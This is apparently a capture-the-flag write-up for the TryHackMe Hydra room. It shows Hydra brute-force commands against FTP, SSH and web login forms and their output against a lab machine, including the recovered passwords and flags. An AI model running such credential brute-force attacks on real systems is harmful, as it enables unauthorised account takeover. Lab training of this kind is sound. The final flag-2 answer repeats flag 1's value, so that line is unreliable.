 # Hydra Introduction

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

[Hydra](https://tryhackme.com/room/hydra)

## 💢 We will cover  the topics

* Hydra Fundamentals
* Brute Forcing (FTP
* Brute Forcing (SSH)
* Brute Forcing (http-post-form)

## Hydra Introduction

**What is Hydra?**

Hydra is a brute force online password cracking program; a quick system login password 'hacking' tool.

We can use Hydra to run through a list and 'bruteforce' some authentication service. Imagine trying to manually guess someones password on a particular service (SSH, Web Application Form, FTP or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

Hydra has the ability to bruteforce the following protocols: Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP.

For more information on the options of each protocol in Hydra, read the official Kali Hydra tool page: [https://en.kali.tools/?p=220](https://en.kali.tools/?p=220)

This shows the importance of using a strong password, if your password is common, doesn't contain special characters and/or is not above 8 characters, its going to be prone to being guessed. 100 million password lists exist containing common passwords, so when an out-of-the-box application uses an easy password to login, make sure to change it from the default! Often CCTV camera's and web frameworks use admin:password as the default password, which is obviously not strong enough.

**Installing Hydra**

If you're using Kali Linux, hydra is pre-installed. Otherwise you can download it here: [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

If you don't have Linux or the right desktop environment, you can deploy your own Kali Linux machine with all the needed security tools. You can even control the machine in your browser! Do this with our Kali room - [https://tryhackme.com/room/kali](https://tryhackme.com/room/kali)

1. Read the above and have Hydra at the ready.

`No answer needed`

## Using Hydra

Deploy the machine attached to this task, then navigate to `http://MACHINE_IP` *(this machine can take up to 3 minutes to boot)*

**Hydra Commands**

The options we pass into Hydra depends on which service (protocol) we're attacking. For example if we wanted to bruteforce FTP with the username being user and a password list being passlist.txt, we'd use the following command:

`hydra -l user -P passlist.txt ftp://MACHINE_IP`

For the purpose of this deployed machine, here are the commands to use Hydra on SSH and a web form (POST method).

**SSH**

`hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh`

![](https://i.imgur.com/D71vkKM.png)

**Post Web Form**

We can use Hydra to bruteforce web forms too, you will have to make sure you know which type of request its making - a GET or POST methods are normally used. You can use your browsers network tab (in developer tools) to see the request types, of simply view the source code.

Below is an example Hydra command to brute force a POST login form:

`hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

![](https://i.imgur.com/vC3ZU4E.png)

You should now have enough information to put this to practise and brute-force yourself credentials to the deployed machine!

1. Use Hydra to bruteforce molly's web password. What is flag 1?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.190.3 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 16:42:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.190.3:80/login:username=^USER^&password=^PASS^:F=incorrect
[80][http-post-form] host: 10.10.190.3   login: molly   password: sunshine
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 16:43:03
```

`THM{2673a7dd116de68e85c48ec0b1f2612e}`

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.190.3 -t 4 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 16:36:20
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.190.3:22/
[22][ssh] host: 10.10.190.3   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 16:37:26
```

`butterfly`

```
ssh molly@10.10.190.3

molly@ip-10-10-190-3:~$ cat flag2.txt 
THM{c8eeb0468febbadea859baeb33b2541b}
```

`THM{2673a7dd116de68e85c48ec0b1f2612e}`
